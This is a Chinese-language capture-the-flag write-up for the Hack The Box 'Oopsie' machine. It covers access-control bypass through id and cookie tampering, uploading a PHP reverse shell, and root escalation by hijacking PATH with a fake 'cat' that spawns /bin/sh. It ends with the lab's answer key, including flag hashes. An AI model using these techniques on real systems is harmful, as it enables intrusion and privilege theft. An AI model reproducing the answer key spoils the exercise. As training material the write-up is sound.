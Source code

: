 ```yaml
---
title: Hack the box Oopsie题解
tags: 
  - HTB
  - 渗透测试
category: 靶场&靶机
permalink: /archives/22239/
published: 2023-03-23 13:56:39
---
```


# 扫机器

拿到目标机器的IP，先看一下，开放了什么端口

```shell
nmap -sC -sV 10.129.95.191
```

![image-20230326131129358](./images/image-20230326131129358.png)

80和22端口有服务在运行，先从80端口入手

在访问80端口的服务时看到这一句话，就是要让我们找登录页，但是并没有找到可以点击登录的地方

![image-20230326131240016](./images/image-20230326131240016.png)

# 路径泄漏

F12打开调试就看到了泄露的路径

![image-20230326131406272](./images/image-20230326131406272.png)

看到可以以游客的身份登录

![image-20230326131702056](./images/image-20230326131702056.png)

登陆后看到有上传的地方，这就是我们的突破口

但是需要超级管理员的账号

![image-20230326131824692](./images/image-20230326131824692.png)

# 越权

当点进**Account**页面的时候URL引起了注意，id=2，那就意味着id=1是管理员账号了，那就试试

![image-20230326131950146](./images/image-20230326131950146.png)

**Account**确实是变成了admin，但是点到**Uploads**的时候还是显示需要管理员账号，那我们可以尝试看看能不能从cookie入手

![image-20230326132045627](./images/image-20230326132045627.png)

对应修改好后，上传页就能用了

![image-20230326132216835](./images/image-20230326132216835.png)

![image-20230326132245663](./images/image-20230326132245663.png)

# 上传webshell

用的是kali自带的**php-reverse-shell.php**，使用方法**GitHub**上有

利用成功，找有用的信息

![image-20230326135027686](./images/image-20230326135027686.png)

# 信息收集

在`/var/www/html/cdn-cgi/login`目录下发现了`db.php`，并且拿到了数据库的账号密码，

![image-20230326135310965](./images/image-20230326135310965.png)

在`/home/robert`下拿到了`user.txt`

![image-20230326135502246](./images/image-20230326135502246.png)

# 切换交互式shell

```shell
SHELL=/bin/bash script -q /dev/null
```

# 提权

用前面得到的信息切换到**robert**用户，然后使用id发现还有一个**bugtracker**组，查找此组是否具有特殊的访问权限

```shell
find / -type f -group bugtracker 2>/dev/null 			//-type f 为查找普通文档，-group bugtracker 限定查找的组为bugtracker，2>/dev/null 将错误输出到黑洞（不显示）
ls -al /usr/bin/bugtracker								//-al 以长格式方式显示并且显示隐藏文件
```

![image-20230326140625853](./images/image-20230326140625853.png)

可以发现拥有者有**s**（setuid）特殊权限，可执行的文件搭配这个权限，可以得到特权，任意存取该文件的所有者能使用的全部系统资源，我们尝试运行它，发现这个文件根据提供的ID值输出以该数字为编号的bug报告

使用**strings**命令看这个命令是怎么运行的

![image-20230326141105922](./images/image-20230326141105922.png)

> 1. bugtracker调用系统中的cat命令输出了位于/root/reports/目录下的bug报告，robert用户本应无权访问/root目录，而bugtracker设置了setuid后就拥有了/root目录的访问，就拥有了root权限
> 2. 且cat命令是使用绝对路径而不是相对路径来调用的，即在当前用户的环境变量指定的路径中搜寻cat命令，可以考虑创建一个恶意的cat命令，并修改当前用户环境变量，将权限提升为root

```shell
export PATH=/tmp:$PATH				//将/tmp目录设置为环境变量
cd /tmp/							//切换到/tmp目录下
echo '/bin/sh' > cat				//在此构造恶意的cat命令
chmod +x cat						//赋予执行权限
```

提权成功

![image-20230326141344832](./images/image-20230326141344832.png)

然后我们可以找到**/root**目录下的**root.txt**拿到**root** **flag**（此时cat命令已被替换，无法读取文件，所以使用**more**命令）

![image-20230326141653739](./images/image-20230326141653739.png)

# 答案

> 1. proxy
> 2. /cdn-cgi/login
> 3. cookie
> 4. 34322
> 5. /uploads
> 6. db.php
> 7. find
> 8. root
> 9. Set owner User ID
> 10. cat
> 11. f2c74ee8db7983851ab2a96a44eb7981
> 12. af13b0bee69f8a877c3faf667f7beacf

# 参考文章

- [渗透测试练习靶场hackthebox——Starting Point Oopsie攻略](https://blog.csdn.net/m0_48066270/article/details/108641892)
- [hack the box靶场oopsie靶机](https://blog.csdn.net/zr1213159840/article/details/123629681)
